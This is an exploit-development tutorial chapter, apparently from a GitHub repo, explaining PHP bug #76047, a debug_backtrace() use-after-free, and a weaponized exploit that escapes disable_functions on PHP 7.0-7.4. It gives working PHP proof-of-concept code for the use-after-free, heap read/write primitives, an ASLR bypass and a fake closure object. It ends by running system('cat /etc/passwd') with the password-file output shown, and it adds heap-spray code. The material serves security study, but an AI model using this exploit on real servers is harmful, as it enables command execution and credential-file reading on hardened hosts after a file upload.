

# Bug #76047 - breaking ``disabled_functions``

>The exploit we'll talk about in this chapter is intended for **post-exploitation**. You'll use it cases where you have a File Upload vulnerability but the target PHP environment is hardened and you cannot execute dangerous functions such as ``system()``, ``passthru()``, ``exec()`` etc. 
>
>This will help you to escape out of the "sandbox" that PHP creates.
>
> 

**TL;DR**: In this chapter, we are creating an empty, anonymous PHP function and then corrupting its memory to make it execute ``system()``. The exploit should work on all PHP 7.0-7.4 versions and the bug was fixed around Feb 2020.

## The bug

A use-after-free was found in the [debug_backtrace()](https://www.php.net/manual/en/function.debug-backtrace.php ) function.

When calling ``debug_backtrace()``, it returns an array with a backtrace info containing a lot of information about the currently-executed PHP script. 

This information includes things like class names, function names that were called and also **function arguments** that were supplied.

Turns out that it's possible to retrieve function arguments that were already free'd using ``debug_backtrace()`` :

```php
<?php
global $backtrace; // when using global, we're making $backtrace to be accessible from anywhere in the PHP script

class Vuln {
        public $a;
        public function __destruct() {
                global $backtrace;
                unset($this->a); // free'ing $arg's zend_string
                $backtrace = debug_backtrace(); // retrieving $arg after it was free'd using debug_backtrace(), the result will be saved in $backtrace, which is a global variable in our script. Hence, we will be able to access it from anywhere in the PHP script and not only in the __destruct method.
        }
}

function trigger_uaf($arg) {
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg; // making $vuln->a point to $arg's zend_string

        // .... more zend stuff is happening in the background ...

        // at this point(end of the function), the __destructor() function of the $vuln object is called
}

trigger_uaf('x'); // using trigger_uaf() we are free'ing $arg and putting the backtrace in our global variable: $backtrace
var_dump($backtrace[1]['args'][0]); // printing the free'd zend_string
$another_var = str_repeat('B', 79); // creating another allocation of the same size in order to catch the free memory slot
var_dump($backtrace[1]['args'][0]); // printing $arg again

```
>Note: don't let ``str_shuffle()`` confuse you, it's just to prevent [OPCache Interned Strings](https://support.acquia.com/hc/en-us/articles/360005319294-Understanding-and-Resolving-PHP-OPcache-and-OPcache-Interned-Strings-buffer-errors): "*The Interned Strings buffer is the amount of memory (in megabytes M) used to store identical strings*". 
>
>It is not important for this PoC but it will prevent crashes soon when we'll show the full exploit.

Notice at the last 3 lines: we are printing **the same variable** twice with two calls to ``var_dump()``. The output supposed to be ``AAAAAAAA...`` twice, right...?

This is the output:

```
string(79) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
string(79) "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
```

We managed to trigger the UAF! ``$another_var`` and ``$backtrace[1]['args'][0]`` shares the same memory address #success

Instead of overlapping a ``zend_string`` with another ``zend_string`` (which is not so useful), we will overlap a ``zend_string`` with a ``zend_object`` to get arbitrary read/write on the heap. 

First, we'll have to understand what is the size of the chunk that ``str_repeat('A', 79)`` generates:

* ``A`` times 79 = 79 bytes
* The rest of the ``zend_string`` structure = 25 bytes
* Total = 104 bytes allocated

In order to create a PHP object with the right size (104 bytes) we'll create a PHP object with 4 properties in it:

```php
<?php
global $backtrace;
/*
A Helper object has to be with 4 properties in it in order to make it be with a size of 104 bytes:

sizeof(zend_object) ---> 56

56 bytes is the size of a PHP object with just one property in it (the default is one).

We can make it bigger by adding more properties when we define the Helper class: 
public $a; ----> zend_object size: 56
public $b; ----> zend_object size: 72   (+16 we're adding another zval)
public $c; ----> zend_object size: 88   (+16 we're adding another zval) 
public $d; ----> zend_object size: 104  (+16 we're adding another zval)
*/
class Helper {
    public $a, $b, $c, $d; 
}

class Vuln {
        public $a;
        public function __destruct() {
                global $backtrace;
                unset($this->a); // free'ing 104 bytes
                $backtrace = debug_backtrace(); 
        }
}

function trigger_uaf($arg) {
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
}

trigger_uaf('x'); //triggering the UAF & freeing 104 bytes
$abc = $backtrace[1]['args'][0]; 

var_dump($abc); // printing $arg from the backtrace result
$helper = new Helper;  // allocating 104 bytes
var_dump($abc); // printing $arg from the backtrace result AGAIN
```

Output:

```
string(79) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
string(140737320595480)
```

Our ``$abc`` string has a huge length (``140737320595480``) and it allows us to get arbirary heap read/write using this long string :D

This is how the overlapping looks like:
```
zend_string      zend_object
----------------------------------
gc               gc
h                handle
len	         ce    
val+0            handlers
val+8            properties
val+16           first field
val+24           type of first field
         ...
```

Some snippets from my debugging session:

This is how ``$abc`` looks like before we init the ``$helper`` object:
```
gdb-peda$ print  (zend_string) *0x7ffff6073070
{
  gc = {
    refcount = 0xf6073002,
    u = {
      v = {
        type = 0xff,
        flags = 0x7f,
        gc_info = 0x0
      },
      type_info = 0x7fff
    }
  },
  h = 0x0,
  len = 0x4f, <---- length field is 79
  val = "A"
}
```

And this is how ``$abc`` looks like after we init the ``$helper`` object:

```
gdb-peda$ p (zend_string)*0x7ffff6073070
$11 = {
  gc = {
    refcount = 0x1,
    u = {
      v = {
        type = 0x8,
        flags = 0x0,
        gc_info = 0x0
      },
      type_info = 0x8
    }
  },
  h = 0x2,
  len = 0x7ffff6003018, <----- really large value 
  val = "\300"
}
```

This address now contains a ``zend_object`` and not a ``zend_string``, but PHP keeps treating it as if it was a string using ``$abc``. 

We overwrote ``zend_string.len`` with one of the pointers( ``zend_object.ce``) of the \$helper object that we instantiated. It doesn't really matter where this pointer points to, our goal here was to make ``len`` a really large value and we achieved it. Now we have arbitrary read/write on the heap using our uaf'd string (``$abc``).

## 0day exploit - found "in the wild"

A few years after this bug was reported, somebody with the handle *@mm0r1* wrote a fully-weaponized UAF exploit and...well, during that time (around **Feb, 2020**) the bug was **still not fixed**. The devs probably forgot about it and the bug report stayed public the whole time. 

Because they didn't fix it for such a long time, it works on a wide range of PHP versions (7.0 to 7.4) which makes it very useful for an attacker. 

The techniques that the exploit author used are pretty clever. I had to debug this thing for a long time in order to understand the magic trickery he did there and to be able to explain everything in plain English so I hope you'll learn something from this write-up when you're writing your own exploits ✨

The exploit has 4-5 stages (depends how you read it):

* Triggering the UAF to get arbirary read/write on the heap (which we already did above  ✓)
* Understanding where we are in memory
* Overcoming ASLR: Finding ``zif_system()``
* Creating a Fake Closure Object
* Pwn :gun:

We will use a version that I made with more comments: [here](./exploit.php).

Buckle up, this is going to be a wild ride.

## Understanding where we are in memory

In order to understand where we are in memory, we are reading 0x58 bytes away from the beginning of our free'd ``zend_string.val``($abc).

We use the offset 0x58 because this is exactly where the ``zend_object``($helper) is over and the next chunk in the heap begins:

```php
$php_heap = str2ptr($abc, 0x58); 
```


>**Note**: In the ``exploit.php`` of this repo: this is in [line 183](exploit.php#L183)


Now ``$php_heap`` contains the first bytes of whatever is after ``zend_object``, it will contain: ``0x00007ffff6073150``

**Q**: But why do we need this value? It's not even related to our object. It's outside of the ``zend_object`` chunk.

**A**: The first 8 bytes of a free chunk contains the address of the next free chunk on the heap:


We can abuse this behaviour to **calculate other addresses** on the heap. In the next line of the exploit ([184](exploit.php#L184)), you can see that the address of ``$abc`` is calculated using this leaked heap address:

```php
$abc_addr = $php_heap - 0xc8;
```

Let's double-check and calculate those values ourselves, we already know from the screenshots above that the address of our free'd ``zend_string.val`` is ``0x7ffff6073088``:
```
gdb-peda$ set $php_heap = 0x00007ffff6073150
gdb-peda$ p/x $php_heap - 0xc8
$100 = 0x7ffff6073088
```

yes! The result is ``0x7ffff6073088`` as expected.

Simple PoC for leaks:
```php
<?php
/* ======= HELPER FUNCTIONS ====== */
function str2ptr(&$str, $p = 0, $s = 8) { # Allows us to read from the uaf'd zend_string and return the leaked bytes in a "form" of a pointer using bitwise operators.
    $address = 0;
    for($j = $s-1; $j >= 0; $j--) {
        $address <<= 8;
        $address |= ord($str[$p+$j]);
    }
    return $address;
}
/* =============================== */

global $backtrace;


class Helper {
    public $a, $b, $c, $d;
}

class Vuln {
	public $a;
	public function __destruct() {
		global $backtrace;
		unset($this->a);
		$backtrace = debug_backtrace();
	}
}

function trigger_uaf($arg) {
	$arg = str_shuffle(str_repeat('A', 79));
	$vuln = new Vuln();
	$vuln->a = $arg;
}

trigger_uaf('x'); // freeing $arg (104 bytes)
$abc = &$backtrace[1]['args'][0]; // UAF'd zend_string
$helper = new Helper; // allocating 104 bytes

// setting values like 0x1336, 0x1337 for debugging purposes (it's easier to detect the object in memory dumps if it has known values)
$helper->a = 0x1336; // zend_object->properties_table[0] 
$helper->b = function ($x) { }; // ignore this right now, this will become system() by the end of this write-up
$helper->c = 0x1337; // zend_object->properties_table[2] 
$helper->d = 0x1338; // zend_object->properties_table[3] 


$php_heap = str2ptr($abc, 0x58); // reading the beginning of a free chunk on the heap
$abc_addr = $php_heap - 0xc8; // going back to the address of where the string in $abc begins

echo "\n Heap leak: 0x".dechex($php_heap);
echo "\n abc addr: 0x".dechex($abc_addr);

?>
```

Output:
```
Heap leak: 0x7ffff6073150
abc addr: 0x7ffff6073088
```

We managed to get the address of ``zend_string.val``($abc).

ok so that was read, What about write? 

The ``write()`` function will allows us to write directly to the uaf'd ``zend_string``($abc) whatever we want with an offset of our choice:

```php
function write(&$str, $p, $v, $n = 8) {
    $i = 0;
    for($i = 0; $i < $n; $i++) {
        $str[$p + $i] = chr($v & 0xff);
        $v >>= 8;
    }
}
```

In the next lines of the exploit([187-188](exploit.php#L187)), the author uses the  ``write()`` function to write the values ``2`` and ``6`` at specific offsets (``0x60`` and ``0x70``):
```php
write($abc, 0x60, 2);
write($abc, 0x70, 6);
```
He's writing outside of the object again. We can understand that it's the end of the object by the ``0x1338`` value in the top right(which is the value we set to ``$helper->d`` in the PHP script):



It looks like he's trying to write a ``zend_reference`` from scratch:

```
struct _zend_reference {
    zend_refcounted   gc;  // populated with 0x2 using write()
    zval              val; // populating zval.u1(contains the type_info field) with the value 6 using write()
};
```

* The value ``2`` is for the ``gc`` field
* The value ``6`` is for the ``type_info`` field of the zval, we're setting it to be ``IS_STRING`` 

**But why? Why would you create a ``zend_reference``?** 

Well, even though ``$abc`` allows us to get arbirary read: It allows us to read only whats after ``$abc`` in memory. But if we use ``$helper->a`` we will be able to read from **anywhere** in memory: In the next lines of the exploit we're overwriting the ``zval.value`` of ``$helper->a``. We're making it point **to the fake zend_reference we created above**(the one at offset ``0x60``):

```php
    # creating a fake reference to the malicious zend_reference we instantiated above(in lines 187-188)
    write($abc, 0x10, $abc_addr + 0x60); # overwriting $helper->a (we are overwriting zval.value)
    write($abc, 0x18, 0xa);              # overwriting $helper->a (we are overwriting its type, changing it to be 0xa, or 10 in decimal, which is IS_REFERENCE)
```

Now the ``zval.value`` of ``$helper->a`` is pointing to our malicious ``zend_reference`` and we can make it point to **anywhere** in memory by populating the ``zend_reference.val.value`` pointer with our target address. 

Reading values using ``$helper->a`` is a bit tricky. We're not going to use ``str2ptr()`` anymore. At this point, we will need to learn about what ``leak()`` is doing:

```php
/*01*/ function leak($addr, $p = 0, $s = 8) {
/*02*/    global $abc, $helper;
/*03*/    write($abc, 0x68, $addr + $p - 0x10);
/*04*/    $leak = strlen($helper->a);
/*05*/    if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
/*06*/    return $leak;
/*07*/ }
```

In this function, we're abusing the way ``strlen()`` works in PHP:
1. First, we set our malicious ``zend_reference.val.value`` to be ``$addr`` (line 3)
2. Then, in line 4 we're abusing the way ``strlen()`` works: In PHP, ``strlen()`` is not exactly a "real function", it's more of a macro, like this one:

```c
#define ZSTR_LEN(zstr)  (zstr)->len
```

It will jump 16 bytes(this is the offset of ``zend_string.len``) past the beginnig of our dereferenced ``zend_reference.val.value`` in memory and then return this value.

In other words: If we make ``$helper->a`` to point to the value in ``$addr``, whenever we will call ``strlen($helper->a)`` PHP will think it's a reference to a ``zend_string`` and will return a value 16 bytes **after** ``$addr``.

This is why in line 3 he subtracted 0x10, which is 16 in decimal. He wanted that ``zend_string.len`` will land exactly at the value that ``strlen()`` returns)

Example of a leak (Lines [195-196](exploit.php#L195) in the exploit):

The variable ``$closure_handlers`` contains the hex value ``0xef6dc0``:

```php
$closure_handlers = str2ptr($abc, 0); // 0xef6dc0 <std_object_handlers>
```

This is an address of a structure that contains many function pointers which will help us to get the base address of the binary later on:

```
gdb-peda$ p *$mytmpObj->handlers  <------ we are dereferencing 0xef6dc0
$197 = {
  offset = 0x0,
  free_obj = 0x734000 <zend_object_std_dtor>, <--- soon to be leaked using leak()
  dtor_obj = 0x734110 <zend_objects_destroy_object>,
  clone_obj = 0x734760 <zend_objects_clone_obj>,
 ..... more .....
```

We will leak a value at ``0xef6dc0 + 0x8`` ([line 196](exploit.php#L196) in the exploit):
```php
$binary_leak = leak($closure_handlers, 8);
``` 

By calling ``leak(0xef6dc0, 8)``, the exploit author managed to:
1. Jump straight to ``0xef6dc0 + 8 - 16`` by making the malicious ``zend_reference.val.value``(of $helper->a) to point to this address. 
2. And then, he calls ``strlen($helper->a)`` which reads the content of ``0xef6dc0 + 8 - 16 + 16`` (notice how the ``+16`` in this step zero-out the ``-16`` from step 1).

``binary_leak`` now contains ``0x734000`` .

Here's the same thing but from a debugging session perspective:

This is what ``strlen()`` saw when it fetched the "length" for us:
```
gdb-peda$ p (zend_string)*0xef6db8 <--- this is 0xef6dc0 + 8 - 16
$199 = {
  gc = {
    refcount = 0x0,
    u = {
      v = {
        type = 0x0,
        flags = 0x0,
        gc_info = 0x0
      },
      type_info = 0x0
    }
  },
  h = 0x0,
  len = 0x734000, <------ our leaked value at offset of +16! this is [free_obj = 0x734000 <zend_object_std_dtor>]
  val = "\020"
}
```

#profit

## Overcoming ASLR: Finding ``zif_system``

Let's recap

At this point, we have the following variables:

* ``$abc``: Our uaf'd ``zend_string`` 
* ``$helper``: PHP object that shares the same memory address of ``$abc``'s value.
* ``$abc_addr``: Contains the address of ``zend_string.val`` ($abc)
* ``$closure_handlers``: Contains a pointer to where the ``$helper`` object handlers are stored. We dereferenced this pointer later using ``leak()`` to get ``$binary_leak``(below)
* ``$binary_leak``: Contains a leaked pointer of the 1st object handler(we leaked the address of ``zend_object_std_dtor()``), this will be useful for the rest of the exploit since we will use this address to overcome ASLR.
* ``$helper->a``: Used to leak values from anywhere in memory. This is a ``zval`` of type ``IS_REFERENCE`` which we assigned to a malicious ``zend_reference`` object that we wrote directly to the memory at offset ``0x60``. Because it has a type of reference, we're modifying the address of ``zend_reference.val.value`` in the first lines of ``leak()`` to get arbitrary leaks anywhere in the memory.
* ``$helper->b()``: an anonymous function that is doing nothing, we will turn it into ``system()`` by the end of the exploit.

We are going to create new variables with useful leaks:

```php
if(!($base = get_binary_base($binary_leak))) {
    die("Couldn't determine binary base address");
}

if(!($elf = parse_elf($base))) {
    die("Couldn't parse ELF header");
}

if(!($basic_funcs = get_basic_funcs($base, $elf))) {
    die("Couldn't get basic_functions address");
}

if(!($zif_system = get_system($basic_funcs))) {
    die("Couldn't get zif_system address");
}
```

All of the functions above (from ``get_binary_base()`` to ``get_system()`` at the end of the snippet) are not doing anything special. They are all just wrappers of ``leak()`` (which we already explained). Here's a short description of what they're doing:

1. ``$base = get_binary_base($binary_leak)``: returns the binary base address by calling ``leak($binary_leak)`` over and over again in a loop until it hits the *ELF header* (if ``$leak == 0x10102464c457f`` is true then it returns the address)
2. ``$elf = parse_elf($base)``: Returns an array with useful sizes and addresses of different segments in the memory ( ``return [$data_addr, $text_size, $data_size];`` ) 
3. ``$basic_funcs = get_basic_funcs($base, $elf)``: Using the 2 previous values we leaked (above), we are retrieving the address of PHP's *basic functions*.

If you're not familiar with what are the basic funcs: The *basic functions* are part of a global variable called ``basic_functions_module`` (lays somewhere in the .data segment):


The ``functions`` property(in red) is our *basic funcs*. It contains internal PHP function names and their addresses (will be used in step 4).

4. ``$zif_system = get_system($basic_funcs)``: Pulling out the address of PHP's ``system()`` function by iterating through ``basic_functions_module->functions[]``:


## Creating a Fake Closure Object

>**Reminder**: In the beginning of the exploit, we set ``$helper->b = function ($x) { }; ``. This is just an empty anonymous function (or, **[*closure*](https://www.php.net/manual/en/functions.anonymous.php) object in "Zend land"**) that accepts one argument and basically doing nothing. It's useless right now but soon we will turn it into ``system`` 🔫

To call PHP's ``system()``, we are going to create a fake *closure object* in memory (Lines [214-218](./exploit.php#L214)):

```php
$closure_obj = str2ptr($abc, 0x20);
# fake closure object
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
    write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}
```
This part is devided into 2 steps:

1. ``$closure_obj = str2ptr($abc, 0x20);``: we are retrieving the address of the ``zend_function`` which ``$helper->b`` points to. In the screenshot below you can see that we're printing the zval of ``$helper->b`` and getting the address of our anonymous ``zend_function`` using ``zval.value.func``:


2. ``for($i = 0; $i < 0x110; $i += 8) { ... } ``: in this part, we're using ``leak()`` and ``write()`` to copy the contents of our leaked ``$closure_obj`` pointer. We are copying it to be somewhere after the ``$helper`` object:


In yellow: we can see ``$helper->c`` (0x1337) and we can also see the last property of the object, ``$helper->d`` (0x1338)

In red: This is where our new copy will land(at offset ``0xd0``), outside of the $helper obj

After having a fresh copy of an anonymous function in memory, we'll start manipulating its metadata (Lines [221-225](./exploit.php#L221)): 

```php
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4); # internal func type
write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
```

1. In the 1st line: we rewrite the ``zval.value`` of ``$helper->b``, we're making it to point to our malicious copy of ``zend_function`` at offset ``0xd0``.
2. Line 2 and 3 are responsible for overwriting some of the metadata in the malicious ``zend_function``, you can see the overwrite below:
   


We can see from the diff that:
* We overwrote a useful function pointer and set it to be ``zif_system`` (Line 37 in the diff)
* We overwrote the ``zend_function.oparray.last`` value to be ``0x1`` instead of ``0x2`` (Line 29 in the diff). But why? 1 or 2, what does it matter? It took me a while to understand but eventually I realized why the exploit author did it: The Zend Engine calls a function named ``destroy_op_array()`` which causes a crash. But if we set this value to be ``0x1``, we can make this function skip the crash:


By setting it to ``0x1``, the ``if()`` statement in line 445(in the snippet above) will not be true and ``destroy_op_array()`` will not be called because PHP thinks it's an internal function and not a user-defined function. #profit

## Pwn 🔫

Now that we have our malicious ``zend_function`` set in ``$helper->b``, all we need is to call it in a way that will trigger the ``try_catch_array`` function pointer:

```php
($helper->b)('cat /etc/passwd');
```

Output:

```
gdb-peda$ r PoC.php
Starting program: /tmp/shaqattack/php-src/sapi/cli/php PoC.php
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New process 28482]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
process 28482 is executing new program: /bin/dash
[New process 28483]
process 28483 is executing new program: /bin/cat
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```
Achievement unlocked!

Sometimes it might fail, sometimes it's not. This is why the exploit author added some heap spraying to the beginning of the script:

```php
$n_alloc = 10; # increase this value if UAF fails
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
    $contiguous[] = str_shuffle(str_repeat('A', 79));
```

I personally had 99% success rate with this spraying so...it should not worry you. Try it yourself :D

## More info: 
* Black Hat USA Conference(2010) - Stefan Esser - Code Reuse/Return Oriented Programming in PHP Application Exploits (this one is pretty old but it's worth watching)
    - Part 1/5: https://www.youtube.com/watch?v=c0ZCe311YW8
    - Part 2/5: https://www.youtube.com/watch?v=XP6KpKhDlg0
    - Part 3/5: https://www.youtube.com/watch?v=rF9UK4dxtBs
    - Part 4/5: https://www.youtube.com/watch?v=etrxFWlv8_0
    - Part 5/5: https://www.youtube.com/watch?v=fRno4pGlQzw
    - Slides: https://web.archive.org/web/20200116105103/https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf

